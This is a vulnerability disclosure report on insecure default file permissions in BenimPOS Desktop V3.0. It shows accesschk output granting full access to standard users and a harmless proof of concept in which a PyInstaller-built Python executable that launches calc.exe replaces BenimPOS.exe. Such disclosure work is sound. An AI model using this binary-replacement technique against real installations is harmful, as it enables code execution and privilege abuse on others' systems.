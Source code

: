 🔒 Security Vulnerability Report
Product: BenimPOS Desktop V3.0
Vulnerability Type: Insecure File Permissions
Affected Components: BenimPOS.exe, unins000.exe, System.Data.SQLite.dll
Vulnerability Class: CWE-276: Incorrect Default Permissions
Proof of Concept by: Fatih Bülbül
Test Environment: Windows 11 x64 – Local Admin + Standard User


🛠️ 1. Vulnerability Detection
First, I checked the permissions of the directory where the BenimPOS application is installed using the AccessChk.exe tool developed by Sysinternals:
Command Used:
accesschk.exe -dqvw "C:\Program Files (x86)\BenimPOS"

Obtained Result:
RW Everyone
  FILE_ALL_ACCESS
RW BUILTIN\Users
  FILE_ALL_ACCESS


📌 FILE_ALL_ACCESS permissions have been granted to the "Everyone" and "BUILTIN\Users" groups. This means that any standard user can modify the application's .exe or .dll files.
📸 A screenshot of this output is provided below:

<img width="945" height="437" alt="image" src="https://github.com/user-attachments/assets/91dbc4e4-1f96-4652-a7ea-dff804744fa2" />

<img width="945" height="536" alt="image" src="https://github.com/user-attachments/assets/17494949-0b24-44a5-95ab-0d258b6706e6" />


2. Exploitation of the Vulnerability
With these permissions, I replaced the BenimPOS.exe file in the application directory with a custom harmless .exe file I created.
📦 Malicious EXE Example (launches calc.exe):
import subprocess
import sys
import traceback

try:
    subprocess.Popen(r"C:\\Windows\\System32\\calc.exe")
except Exception as e:
    with open("error_log.txt", "w") as f:
        f.write(traceback.format_exc())
    sys.exit(1) 


•	I converted this script into an .exe file (e.g., using PyInstaller).
•	Then, I replaced the original BenimPOS.exe file with this new executable.
🔁 Program Launch:
•	Instead of opening BenimPOS, the calculator (calc.exe) was executed.
📸 Screenshot (calc.exe launched):

<img width="945" height="711" alt="image" src="https://github.com/user-attachments/assets/f3cd6808-79f7-47b7-ae2f-78c2a82d3bea" />

<img width="945" height="748" alt="image" src="https://github.com/user-attachments/assets/bacfc701-27a4-4812-ae87-881c0987c1b1" />
